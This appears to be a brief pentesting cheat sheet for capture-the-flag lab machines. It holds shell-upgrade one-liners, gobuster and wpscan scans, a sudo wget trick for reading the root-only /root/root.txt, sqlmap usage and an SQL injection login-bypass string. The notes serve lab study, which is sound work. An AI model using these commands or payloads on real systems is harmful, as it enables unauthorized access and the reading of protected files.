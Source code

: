 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

https://gtfobins.github.io/

wpscan --url https://brainfuck.htb --disable-tls-checks

https://rumkin.com/tools/cipher/ for ciphers

`sqlmap -r login.req`

sqlinjection try: `admin'-- -`

